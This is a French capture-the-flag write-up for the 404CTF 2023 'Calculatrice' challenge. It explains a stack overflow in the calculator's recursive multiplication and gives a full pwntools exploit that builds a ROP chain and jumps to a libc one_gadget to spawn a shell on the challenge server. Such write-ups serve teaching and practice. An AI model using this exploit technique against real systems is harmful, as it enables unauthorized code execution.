

## Calculatrice

était donc un challenge d'exploitation binaire de la dernière édition du 404CTF 2023

c'était une calculatrice comme son nom l'indique. La vulnérabilité est assez simple à trouver,

c'est un overflow sur la pile lors du traitement récursif de l'opération de multiplication.

par exemple si on envoie à la calculatrice:

`9*9*9*9*9*9*9*9*9*9*9*9*9*1*2*3*4*5*6*7`

on obtient un beau crash, qu'on va inspecter sous gdb:



On peut voir que la valeur `1` à été écrite sur l'adresse de retour, dans RIP donc.

Et que les autres valeurs 2,3,4,etc... sont sur la pile.

Les protections du binaire étant minimes (pas de PIE notamment):

```sh
checksec calculatrice
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

Il est donc très simple d'envoyer un ROP à éxécuter au programme.

Il y avait un "intended" (concept signifiant que vous devez faire les choses d'une certaine façon qui est censée être la bonne) dont je n'ai aucune idée.

pour ma part je suis allé vers le plus simple et rapide.

J'ai utilisé un `add gadget`, afin de transformer l'adresse libc de `stderr` stockée dans la `.bss` pour la transformer en l'adresse d'un `one gadget`, que j'ai exécuté.

voici l'exploit en question:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("calculatrice_patched")
libc = ELF("./libc.so.6")

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l0', filename]).decode().split(' ')]
#onegadgets = one_gadget(libc.path, libc.address)

# shortcuts
def sla(delim,line): return p.sendlineafter(delim,line)

rop = ROP(exe)

host, port = "challenges.404ctf.fr", "32111"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rbx_rbp = rop.find_gadget(['pop rbx','pop rbp', 'ret'])[0]
add_gadget = 0x000000000040125c # add dword ptr [rbp - 0x3d], ebx ; nop ; ret
jmp_rsi = 0x0000000000401638 # jmp qword ptr [rsi - 0x39]
pop_rsi = rop.find_gadget(['pop rsi','pop r15', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

# use add gadget to change stderr address on .bss to a onegadget, and jump to it..
onegadgets = one_gadget(libc.path)
rop = p64(pop_rbx_rbp)+p64((0x100000000-((libc.address+0x3ec680)-onegadgets[2])))+p64(0x404060+0x3d)+p64(add_gadget)
rop += p64(pop_rsi)+p64(0x404060+0x39)+p64(0)+p64(jmp_rsi)+p64(0)*10


payload = '9*9*9*9*9*9*9*9*9*9*9*9*9*'
# write ROP on stack
for i in range(len(rop)>>3):
  payload += str(u64(rop[(i*8):(i+1)*8]))+'*'

print('payload\n'+payload)

sla(" : ", payload)
p.interactive()
```

et puis voilà quoi...sinon tout va bien..à une prochaine ! 

*Personne_maisalorsvraiment_personne toujours en train d'exploiter de pauvres binaires..*

